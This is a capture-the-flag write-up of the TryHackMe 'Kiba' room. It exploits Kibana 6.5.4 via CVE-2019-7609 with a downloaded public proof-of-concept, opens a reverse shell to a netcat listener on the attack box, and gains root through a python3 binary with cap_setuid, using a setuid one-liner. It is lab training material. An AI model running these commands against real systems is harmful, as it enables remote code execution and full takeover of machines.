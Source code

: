 # THM: Kiba

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/kiba/kiba.png" alt="Kiba" width="90"/> |
| Room | Kiba |
| URL | https://tryhackme.com/room/kiba |
| Difficulty | Easy |

## Concepts/Tools Used

- getcap

## Room Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-05 22:05 BST
Nmap scan report for target.thm (10.10.223.67)
Host is up (0.045s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:55 GMT
|     Connection: close
|     Kibana server is not ready yet
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:54 GMT
|     Connection: close
|_    Kibana server is not ready yet
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=7/5%Time=686993B2%P=x86_64-pc-linux-gnu%r(Get
SF:Request,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-after:\
SF:x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-control:
SF:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20Jul\x20
SF:2025\x2021:05:54\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x20server
SF:\x20is\x20not\x20ready\x20yet")%r(HTTPOptions,E0,"HTTP/1\.1\x20503\x20S
SF:ervice\x20Unavailable\r\nretry-after:\x2030\r\ncontent-type:\x20text/ht
SF:ml;\x20charset=utf-8\r\ncache-control:\x20no-cache\r\ncontent-length:\x
SF:2030\r\nDate:\x20Sat,\x2005\x20Jul\x202025\x2021:05:54\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\nKibana\x20server\x20is\x20not\x20ready\x20yet")%r
SF:(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(RPCChec
SF:k,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSVersionBindReqT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSStatusRequestT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Help,1C,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSessionReq,1C,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCookie,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1C,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Fou
SF:rOhFourRequest,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-
SF:after:\x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-c
SF:ontrol:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20
SF:Jul\x202025\x2021:05:55\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x2
SF:0server\x20is\x20not\x20ready\x20yet")%r(LPDString,1C,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\n\r\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(LANDesk-RC,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(T
SF:erminalServer,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
MAC Address: 02:C8:58:81:D8:AD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.58 seconds
```

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

I type that question into google and it shows a result that talks about Prototype pollution.

I check the site running at http://target.thm. It mentions that linux capabilities are very interesting. I am not familiar with those but I do take a note of it. I don't see much else and so I check http://target.thm:5601 to see what is on that port before I try running directory enumeration on port 80.

## What is the version of visualization dashboard installed in the server?

The site on port 5601 has Kibana running. I click the link that says "explore my own" data. The first thing I do is try to find a version number for Kibana. I clicked the management link on the left side panel. It says version 6.5.4.

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I run the following to command to see if searchsploit has anything:

```bash
$ searchsploit kibana 6.5.4
```

I get no results. I google "kibana 6.5.4 cve" and I find CVE-2019-7609 which is a arbitrary code execution for this version of Kibana.

I do another google search for "cve-2019-7609 poc". I get a hit with this one. I find a [github repository](https://github.com/LandGrey/CVE-2019-7609) with a python script. I download the script to my attack box with the following:

```bash
$ wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/refs/heads/master/CVE-2019-7609-kibana-rce.py
```

## Compromise the machine and locate user.txt

The script wants a url to the kibana instance, it also wants the reverse shell url and port number. There is one more argument that will call the reverse shell but if that argument is not provided the script just verifies that the Kibana instance is vulnerable.

I make some changes to the script so that it will work with python3. They are the following:

- Line 23: Add `.decode('utf-8')` after r.content
- Line 57: Add `.decode('utf-8')` after r.content

After the changes, I check to make sure the Kibana instance is vulnerable with the following command:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://target.thm:5601
[+] http://target.thm:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
```

I open a new terminal on my attack box and run the following to start a reverse shell listener:

```bash
$ nc -lvnp 4444
```

Then I run the following:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://target.thm:5601 -host <attack_box_ip> -port 4444 --shell
[+] http://target.thm:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: <attack_box_ip>:4444
```

I have a shell. I'm in!

I follow the [steps here](../../README.md#stable-shell) to get a stable shell.

I run the following to see what users have a home directory:

```bash
$ ls -lh /home
kiba
```

I then cat the file in that directory:

```bash
$ cat /home/kiba/user.txt
REDACTED
```

## How would you recursively list all of these capabilities?

Since I am not familiar with linux capabilities, I did a google search and found the `getcap` command. I looked at the documentation for this command by running:

```bash
$ man getcap
```

As I read the documentation, I found that the -r flag does a recursive search. So the command is the following:

```bash
$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

I added the `2>/dev/null` because I only want successful values. The entry it returned is very interesting.

## Escalate privileges and obtain root.txt

All I had to do was create a shell as root using the python3 at the location above. Here is the command I ran:

```bash
$ /home/kiba/.hackmeplease/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```

